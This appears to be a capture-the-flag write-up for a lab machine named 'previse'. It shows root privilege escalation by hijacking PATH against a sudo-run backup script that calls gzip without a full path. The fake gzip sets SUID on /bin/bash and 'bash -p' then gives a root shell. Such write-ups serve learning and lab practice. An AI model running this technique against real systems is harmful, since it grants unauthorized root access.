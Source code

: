 uhm...yeah ok a custom script

`cat /opt/scripts/access_backup.sh`

```
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account

# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)\_file_access.gz
```

path injecton is possible with gzip execution

FFirst we create a fake gzip binary with SUID and make it executable

```
m4lwhere@previse:/tmp$ echo "chmod +s /bin/bash" > gzip
m4lwhere@previse:/tmp$ chmod +x gzip
```

Export path as we are in tmp folder  
`m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH`

we execute the vulnerable script with sudo wich execute our gzip over true one (PATH priority is from left to right)

```
m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh
[sudo] password for m4lwhere:
```

Then we set suid to original /bin/bash wich runs as root now

```
m4lwhere@previse:/tmp$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun 6 2019 /bin/bash
m4lwhere@previse:/tmp$ bash -p
bash-4.4#
```

the last part was tricky so note that I googled before doing it

```
-p Turned on whenever the real and effective user ids do not match.
Disables processing of the $ENV file and importing of shell
functions. Turning this option off causes the effective uid and
gid to be set to the real uid and gid.
```

Now we are root

```
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
```

And its Done!
